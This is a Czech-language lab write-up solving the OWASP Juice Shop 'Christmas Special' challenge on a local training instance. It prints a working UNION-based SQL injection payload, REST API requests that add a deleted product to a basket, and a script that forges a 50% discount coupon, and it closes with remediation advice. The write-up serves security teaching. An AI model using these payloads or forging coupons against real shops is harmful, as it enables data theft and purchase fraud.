







# Úloha 1 – OWASP Juice Shop: „Christmas Special"

**Zadání:** V aplikaci OWASP Juice Shop si kupte Vánoční speciál z roku 2014 a při
nákupu uplatněte kupón na 50 % slevu z října 2026. Postup podrobně popište a doložte
snímky obrazovek.

**Prostředí (autorizovaná lokální laboratoř):**

| Komponenta | Hodnota |
|---|---|
| Juice Shop (OrbStack kontejner) | `http://192.168.215.2:3000` |
| Verze Juice Shop | `20.2.0` |
| Kali Linux (nástroje) | `ssh kali@orb` |
| Datum vypracování | 14. 10. 2026 |

---

## Shrnutí řešení

Úloha má dvě navzájem provázané části:

1. **Vánoční speciál z roku 2014** – produkt *Christmas Super-Surprise-Box (2014
   Edition)* (`id = 10`) je v databázi **logicky smazaný** (má vyplněný sloupec
   `deletedAt`), takže se v obchodě nenabízí. Nejprve ho odhalíme **SQL injekcí** ve
   vyhledávání a poté ho **přes REST API vložíme do košíku** (přes UI to nejde, protože
   produkt není klikatelný) a objednáme.
2. **Kupón na 50 % slevu z října 2026** – kupóny Juice Shopu nejsou náhodné, ale vznikají
   **z85 zakódováním** řetězce `MMMYY-<sleva>`. Pro říjen 2026 a 50 % tedy zakódujeme
   `OCT26-50`, čímž získáme platný kupón `pEw8phz3^u`.

**Výsledek:** challenge *Christmas Special* se po objednávce označí jako splněná
(`solved: true`).

---

## Část A – Odhalení a objednání vánočního speciálu

### Krok 1 – Přihlášení (nebo registrace) zákazníka

V prohlížeči otevřeme `http://192.168.215.2:3000`, přihlásíme se existujícím účtem,
nebo si přes **Account → Login → Not yet a customer?** vytvoříme nový.


*Snímek 01 – přihlášený uživatel (účet `a@a.cz` vpravo nahoře).*

Pro práci přes API/nástroje z Kali se přihlásíme takto a uložíme si **JWT token** a
**ID košíku (`bid`)**:

```bash
BASE=http://192.168.215.2:3000
EMAIL="lab@test.local"; PASS="Passw0rd!123"

# (případná registrace)
curl -s -X POST "$BASE/api/Users/" -H 'Content-Type: application/json' \
  -d "{\"email\":\"$EMAIL\",\"password\":\"$PASS\",\"passwordRepeat\":\"$PASS\",\"securityQuestion\":{\"id\":1},\"securityAnswer\":\"x\"}"

# přihlášení
LOGIN=$(curl -s -X POST "$BASE/rest/user/login" -H 'Content-Type: application/json' \
  -d "{\"email\":\"$EMAIL\",\"password\":\"$PASS\"}")
TOKEN=$(echo "$LOGIN" | python3 -c 'import sys,json;print(json.load(sys.stdin)["authentication"]["token"])')
BID=$(echo   "$LOGIN" | python3 -c 'import sys,json;print(json.load(sys.stdin)["authentication"]["bid"])')
echo "BID=$BID"
```

### Krok 2 – Odhalení smazaného produktu SQL injekcí

Vyhledávací pole posílá dotaz na `GET /rest/products/search?q=<text>`. Parametr `q` je
vkládán přímo do SQL dotazu, takže je zranitelný vůči SQL injekci. Běžné hledání
„christmas" nevrátí nic (produkt je smazaný):

```bash
curl -s "$BASE/rest/products/search?q=christmas"
# {"status":"success","data":[]}
```

Pomocí `UNION SELECT` ale obejdeme filtr `deletedAt IS NULL` a zobrazíme **všechny**
produkty včetně smazaných. Do vyhledávacího pole (nebo přímo do URL) zadáme:

```
')) UNION SELECT id,name,description,price,deluxePrice,image,createdAt,updatedAt,deletedAt FROM Products--
```

```bash
curl -s "$BASE/rest/products/search?q=qwert%27))%20UNION%20SELECT%20id,name,description,price,deluxePrice,image,createdAt,updatedAt,deletedAt%20FROM%20Products--"
```

V odpovědi se objeví i hledaný produkt – s **nenulovým `deletedAt`**:

```json
{
  "id": 10,
  "name": "Christmas Super-Surprise-Box (2014 Edition)",
  "description": "Contains a random selection of 10 bottles ... (Seasonal special offer! Limited availability!)",
  "price": 29.99,
  "deletedAt": "2014-12-27 ..."
}
```

Zjistili jsme klíčový údaj: **ProductId = 10**.


*Snímek 02 – JSON odpověď SQL injekce: produkt `id:10` „Christmas Super-Surprise-Box
(2014 Edition)" s vyplněným `deletedAt` (zvýrazněno).*

### Krok 3 – Vložení produktu 10 do košíku přes REST API

Smazaný produkt nelze přidat kliknutím (není v obchodě), ale server stále přijímá
požadavek na `POST /api/BasketItems`. Vložíme produkt `10` do svého košíku `BID`:

**Varianta A – curl z Kali:**

```bash
curl -s -X POST "$BASE/api/BasketItems/" \
  -H "Authorization: Bearer $TOKEN" -H 'Content-Type: application/json' \
  -d "{\"ProductId\":10,\"BasketId\":\"$BID\",\"quantity\":1}"
# {"status":"success","data":{"ProductId":10,"BasketId":"6","quantity":1,...}}
```

**Varianta B – přímo v prohlížeči (DevTools → Console):** vhodné pro snímek z UI.

```javascript
fetch('/api/BasketItems/', {
  method: 'POST',
  headers: {
    'Authorization': 'Bearer ' + localStorage.getItem('token'),
    'Content-Type': 'application/json'
  },
  body: JSON.stringify({ ProductId: 10, BasketId: localStorage.getItem('bid'), quantity: 1 })
}).then(r => r.json()).then(console.log)
```


*Snímek 03 – `POST /api/BasketItems` s `ProductId:10` v DevTools Console a úspěšná
odpověď (`status: "success"`, `BasketId: "6"`).*

### Krok 4 – Kontrola košíku

Otevřeme **Your Basket**. V košíku je nyní *Christmas Super-Surprise-Box (2014
Edition)* za 29,99.

```bash
curl -s "$BASE/rest/basket/$BID" -H "Authorization: Bearer $TOKEN"
# ... "name":"Christmas Super-Surprise-Box (2014 Edition)" ...
```


*Snímek 04 – košík se zobrazeným „Christmas Super-Surprise-Box (2014 Edition)",
Total Price 29.99.*

---

## Část B – Padělání a uplatnění kupónu na 50 % z října 2026

### Krok 5 – Odvození kupónu

Juice Shop generuje měsíční kupóny deterministicky: vezme řetězec ve tvaru
`MMMYY-<sleva>` (třípísmenná zkratka měsíce **velkými písmeny** + dvojčíslí roku +
pomlčka + sleva v procentech) a zakóduje ho algoritmem **Z85** (Base85 dle ZeroMQ).
Kupón je platný pouze v odpovídajícím měsíci a roce.

Pro **říjen 2026** a **50 %** je vstup: `OCT26-50`.

Zakódování Z85 (spustitelné na Kali bez instalace balíčků):

```bash
python3 - <<'PY'
Z85 = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ.-:+=^!/*?&<>()[]{}@%$#"
def enc(s):
    b = s.encode(); assert len(b) % 4 == 0
    out = []
    for i in range(0, len(b), 4):
        v = (b[i]<<24)|(b[i+1]<<16)|(b[i+2]<<8)|b[i+3]
        c = [0]*5
        for j in range(4, -1, -1):
            c[j] = Z85[v % 85]; v //= 85
        out += c
    return "".join(out)
print("OCT26-50 ->", enc("OCT26-50"))
PY
# OCT26-50 -> pEw8phz3^u
```

**Výsledný kupón: `pEw8phz3^u`**

> Poznámka: měsíc musí být VELKÝMI písmeny (`OCT`), jinak server kupón odmítne
> („Invalid coupon."). Vstup musí mít délku dělitelnou 4 (zde 8 znaků), což `OCT26-50`
> splňuje.

### Krok 6 – Uplatnění kupónu

V košíku zadáme kupón `pEw8phz3^u` do pole **Coupon** a potvrdíme. Aplikace odpoví
přiznáním 50% slevy.

```bash
# ^ se v URL zapisuje jako %5E
curl -s -X PUT "$BASE/rest/basket/$BID/coupon/pEw8phz3%5Eu" \
  -H "Authorization: Bearer $TOKEN"
# {"discount":50}
```


*Snímek 05 – zadaný kupón `pEw8phz3^u` v poli Coupon; cena k úhradě klesla na 15.98
(po 50% slevě).*

---

## Část C – Dokončení objednávky a ověření

### Krok 7 – Objednávka (checkout)

V UI projdeme **Checkout**: vybereme/zadáme doručovací adresu, způsob doručení a
platební kartu a potvrdíme objednávku. Ekvivalent přes API:

```bash
# adresa
AID=$(curl -s -X POST "$BASE/api/Addresss/" -H "Authorization: Bearer $TOKEN" \
  -H 'Content-Type: application/json' \
  -d '{"fullName":"Lab User","mobileNum":"123456789","zipCode":"10000","streetAddress":"Lab 1","city":"Praha","state":"CZ","country":"Czechia"}' \
  | python3 -c 'import sys,json;print(json.load(sys.stdin)["data"]["id"])')

# platební karta
CID=$(curl -s -X POST "$BASE/api/Cards/" -H "Authorization: Bearer $TOKEN" \
  -H 'Content-Type: application/json' \
  -d '{"fullName":"Lab User","cardNum":4111111111111111,"expMonth":12,"expYear":2099}' \
  | python3 -c 'import sys,json;print(json.load(sys.stdin)["data"]["id"])')

# checkout – 50% sleva už je navázána na košík z kroku 6, takže stačí odeslat
# objednávku; couponData je jen frontendem uložená cache kupónu (volitelné)
curl -s -X POST "$BASE/rest/basket/$BID/checkout" -H "Authorization: Bearer $TOKEN" \
  -H 'Content-Type: application/json' \
  -d "{\"orderDetails\":{\"paymentId\":\"$CID\",\"addressId\":$AID,\"deliveryMethodId\":1}}"
# {"orderConfirmation":"2b59-695ee1b7317027b1"}
```


*Snímek 06 – „Thank you for your purchase!" s vánočním speciálem, Promotion 14.99
(50% sleva), Total 15.99 a zelený banner „You successfully solved a challenge:
Christmas Special".*

### Krok 8 – Ověření splnění challenge

Na **Scoreboard** (`http://192.168.215.2:3000/#/score-board`) je challenge
**„Christmas Special"** označena jako splněná. Ověření přes API:

```bash
curl -s "$BASE/api/Challenges/?name=Christmas%20Special" \
  | python3 -c 'import sys,json;[print("solved:",c["solved"],"|",c["name"]) for c in json.load(sys.stdin)["data"]]'
# solved: True | Christmas Special
```


*Snímek 07 – Scoreboard: challenge „Christmas Special – Order the Christmas special
offer of 2014." označena jako splněná (zelená).*

---

## Zneužité zranitelnosti (shrnutí)

| # | Zranitelnost | Kde | Dopad |
|---|---|---|---|
| 1 | SQL Injection (UNION-based) | `GET /rest/products/search?q=` | Obejití filtru `deletedAt`, čtení skrytých dat |
| 2 | Broken Access Control / chybějící validace | `POST /api/BasketItems` | Vložení smazaného produktu do košíku |
| 3 | Předvídatelné (padělatelné) kupóny | Z85(`MMMYY-sleva`) | Vytvoření libovolného kupónu bez autorizace |

## Náprava (doporučení)

- Parametrizované dotazy / ORM místo skládání SQL z řetězců; filtr `deletedAt` vynutit
  i pro `UNION` dotazy (resp. nepoužívat logické mazání pro produkty v nabídce).
- Serverová validace, že přidávaný `ProductId` odkazuje na aktivní (nesmazaný) produkt.
- Kupóny generovat jako náhodné, serverově ukládané a jednorázové tokeny, ne jako
  deterministicky odvoditelný řetězec.
